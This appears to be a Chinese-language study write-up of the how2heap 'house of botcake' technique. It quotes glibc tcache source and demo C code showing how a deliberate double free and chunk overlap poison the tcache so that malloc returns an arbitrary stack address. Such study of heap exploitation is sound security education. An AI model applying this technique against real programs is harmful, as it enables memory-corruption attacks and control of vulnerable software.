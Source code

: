 # house of botcake

how2heap的house_of_botcake是tcache poisoning attack。利用双重释放的漏洞，令malloc返回任意地址。

## tcache简介

tcache是glibc2.26新加入的机制，malloc会优先在tcache bins中查找符合条件的chunk，接下来再按以前的顺序。

tcache bins类似于fast bins，默认最多有64个链表，每个链表能容纳7个chunk:

```c
/* 索引方式 */
# define usize2tidx(x) csize2tidx (request2size (x))

/* With rounding and alignment, the bins are...
   idx 0   bytes 0..24 (64-bit) or 0..12 (32-bit)
   idx 1   bytes 25..40 or 13..20
   idx 2   bytes 41..56 or 21..28
   etc.  */

# define TCACHE_MAX_BINS		64

# define TCACHE_FILL_COUNT 7

/* 单链表 */
typedef struct tcache_entry
{
  struct tcache_entry *next;
} tcache_entry;

typedef struct tcache_perthread_struct
{
  char counts[TCACHE_MAX_BINS]; /* 链表中元素个数计数 */
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;
```

由于是新机制，tcache的安全检查相对要少。接下来查看house_of_botcake代码来进一步学习。

## chunk overlap

申请空间部分略去。

```c
puts("Now we are able to cause chunk overlapping");
puts("Step 1: fill up tcache list");
for(int i=0; i<7; i++){
    free(x[i]);
}
puts("Step 2: free the victim chunk so it will be added to unsorted bin");
free(a);
    
puts("Step 3: free the previous chunk and make it consolidate with the victim chunk.");
free(prev);
```

因为tcache list满了，于是a被放进unsorted bin中。`free(prev)`时发现其next chunk，即a已被free，于是发生前向合并。见malloc.c：

```c
if (nextchunk != av->top) {
      /* get and clear inuse bit */
      nextinuse = inuse_bit_at_offset(nextchunk, nextsize);

      /* consolidate forward */
      if (!nextinuse) {
	unlink(av, nextchunk, bck, fwd);
	size += nextsize;
      } else
	clear_inuse_bit_at_offset(nextchunk, 0);
    .....
```

进行下一步。

```c
puts("Step 4: add the victim chunk to tcache list by taking one out from it and free victim again\n");
malloc(0x100);
/*VULNERABILITY*/
free(a);// a is already freed
/*VULNERABILITY*/
```

tcache是LIFO的，chunk在链表头进出。所以此段代码一个0x100chunk从表头取出，a再放到表头。可是a已经被释放了，这么做可行吗？

查看`_int_free()`中关于tcache的代码：

```c
#if USE_TCACHE
  {
    size_t tc_idx = csize2tidx (size);

    if (tcache
	&& tc_idx < mp_.tcache_bins
	&& tcache->counts[tc_idx] < mp_.tcache_count)
      {
	tcache_put (p, tc_idx);
	return;
      }
  }
#endif
```

其中只检查了索引是否超出范围，和链表是否已满。再查看具体的放入tcache代码：

```c
static void
tcache_put (mchunkptr chunk, size_t tc_idx)
{
  tcache_entry *e = (tcache_entry *) chunk2mem (chunk);
  assert (tc_idx < TCACHE_MAX_BINS);
  e->next = tcache->entries[tc_idx];
  tcache->entries[tc_idx] = e;
  ++(tcache->counts[tc_idx]);
}
```

也是只再次做了索引和计数的检查，不会发现double free的行为。于是a成功地被放进了tcache。

值得注意的是，e->next其实就是chunk的fd：

```c
/* chunk2mem将指向chunk header的指针换算为指向user data的指针 */
#define chunk2mem(p)   ((void*)((char*)(p) + 2*SIZE_SZ))

/* next就处于结构体开头 */
typedef struct tcache_entry
{
  struct tcache_entry *next;
} tcache_entry;
```

## simple tcache poisoning

此时，a位于一个更大的释放过的chunk中（prev），我们可以利用这点来做tcache poisoning了。

```
intptr_t *b = malloc(0x120);

b[0x120/8-2] = (long)stack_var;
```

tcache中并没有0x120大小的chunk，而unsorted bin中只有一个chunk_size为0x220的prev，于是malloc将其切割并交给b。（b的chunk header位置应与之前prev的相同）

怎么通过b修改a？请看示意图：

![b内存示意图](C:\Users\38hjw\Documents\botcake_illustration.png)

于是在b指向地址开始移位0x110就是a的fd（next）。令其指向我们希望最后malloc返回的地址`stack_var`。

进行下一步之前，先看`__libc_malloc()`中有关tcache的代码。它直接按索引取出链表头，没有充分检查：

```c
#if USE_TCACHE
  /* int_free also calls request2size, be careful to not pad twice.  */
  size_t tbytes = request2size (bytes);
  size_t tc_idx = csize2tidx (tbytes);

  MAYBE_INIT_TCACHE ();

  DIAG_PUSH_NEEDS_COMMENT;
  if (tc_idx < mp_.tcache_bins
      /*&& tc_idx < TCACHE_MAX_BINS*/ /* to appease gcc */
      && tcache
      && tcache->entries[tc_idx] != NULL)
    {
      return tcache_get (tc_idx);
    }
  DIAG_POP_NEEDS_COMMENT;
#endif
```

tcache_get也不会检查next是否合法：

```c
tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];
  assert (tc_idx < TCACHE_MAX_BINS);
  assert (tcache->entries[tc_idx] > 0);
  tcache->entries[tc_idx] = e->next;
  --(tcache->counts[tc_idx]);
  return (void *) e;
}
```

所以说，我们将a从tcache中取出，链表头就会变为stack_var。

```c
malloc(0x100);/* 将a从tcache取出 */
```

再次malloc，程序根据0x100找到相应的tcache bin索引，并取出链表头元素，即stack_var。

```c
intptr_t *c = malloc(0x100);
```

最后检查是否成功：

```c
assert(c==stack_var);
printf("Got control on target/stack!\n\n");
```

![1560241319846](C:\Users\38hjw\AppData\Roaming\Typora\typora-user-images\1560241319846.png)

![1560241342159](C:\Users\38hjw\AppData\Roaming\Typora\typora-user-images\1560241342159.png)

## Note

在这个攻击中，我们可以再次释放b和a，然后故技重施修改a的fd。重复多次这个过程，我们可以令malloc返回很多任意指定的地址。

## 参考链接

[glibc-2.26-source](http://ftp.gnu.org/gnu/glibc/)

[libc2.26 之后的 Tcache 机制](<https://www.jianshu.com/p/3ef98e86a913>)

